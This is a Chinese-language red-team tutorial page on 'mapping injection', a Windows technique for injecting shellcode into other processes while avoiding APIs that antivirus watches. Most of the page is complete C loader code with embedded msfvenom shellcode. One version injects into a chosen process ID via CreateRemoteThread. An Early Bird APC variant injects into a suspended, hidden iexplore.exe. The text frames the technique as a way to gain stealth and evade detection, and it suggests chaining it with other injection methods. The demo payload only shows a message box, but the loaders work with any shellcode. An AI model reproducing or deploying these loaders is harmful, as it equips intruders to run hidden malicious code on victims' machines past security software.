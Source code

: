 ```yaml
---
description: Mapping Injection
---
```


# Mapping Injection

## 简介

映射注入是一种内存注入技术，可以避免使用一些经典注入技术使用的API,如VirtualAllocEx,WriteProcessMemory等被杀毒软件严密监控的API，同时创建Mapping内核对象本质上属于申请一块物理内存，而申请的物理内存又能比较方便的通过系统函数直接映射到进程的虚拟内存里，这也就避免使用经典写入函数，增加了隐蔽性。

![](../.gitbook/assets/image%20%2815%29.png)

## 注入流程

1. 在注入进程创建mapping
2. 将mapping映射到注入进程虚拟地址
3. 往被映射的虚拟地址写入shellcode
4. 打开被注入进程句柄
5. 将mapping映射到被注入进程虚拟地址
6. 创建远程线程

## 代码实现

PS:CreateFileMapping存在多种用法,并非只有这一种。

```text
#include <windows.h>
#include <stdio.h>
#pragma comment (lib, "OneCore.lib")


//msfvenom -p windows/x64/messagebox -e x64/xor_dynamic -i 15 EXITFUNC=thread  -f c
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e\x4c\x8d"
"\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x48\x65\x6c\x6c\x6f"
"\x2c\x20\x66\x72\x6f\x6d\x20\x4d\x53\x46\x21\x00\x4d\x65\x73"
"\x73\x61\x67\x65\x42\x6f\x78\x00";

int main(int argc, char** argv)
{

	

	HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

	LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

	memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 19752);

	LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

	HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpMapAddressRemote, NULL, 0, NULL);

	UnmapViewOfFile(lpMapAddress);
	CloseHandle(hMapping);
	return 0;
}
```

## 扩展与优化

在前面的章节中说过CreateRemoteThread这样敏感的API也会被杀毒软件重点关注，那么我们同时可以使用别的代码执行方式，比如说APC注入和Early Bird等注入技术，mapping注入技术也可以作为一种非常规的shellcode写入技术使用，我们并不用拘泥与常规的使用方式，也可以与已有技术组合出新的代码执行链。

* 与Early Bird技术组合

```text
#include <windows.h>
#include <stdio.h>
#pragma comment (lib, "OneCore.lib")


//msfvenom -p windows/x64/messagebox -e x64/xor_dynamic -i 15 EXITFUNC=thread  -f c
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e\x4c\x8d"
"\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x48\x65\x6c\x6c\x6f"
"\x2c\x20\x66\x72\x6f\x6d\x20\x4d\x53\x46\x21\x00\x4d\x65\x73"
"\x73\x61\x67\x65\x42\x6f\x78\x00";

	int main() {
		STARTUPINFO si = { 0 };
		PROCESS_INFORMATION pi = { 0 };
		si.cb = sizeof(STARTUPINFO);
		HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

		LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

		memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));

		CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, (LPSTARTUPINFOA)&si, &pi);

		LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, pi.hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

		QueueUserAPC((PAPCFUNC)lpMapAddressRemote, pi.hThread, NULL);
		ResumeThread(pi.hThread);
		CloseHandle(pi.hThread);
		CloseHandle(hMapping);
		UnmapViewOfFile(lpMapAddress);
		return 0;
	}

```

![](../.gitbook/assets/image%20%2814%29.png)

* github:[https://github.com/idiotc4t/Mapping-injection](https://github.com/idiotc4t/Mapping-injection)

## LINKS

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2" %}



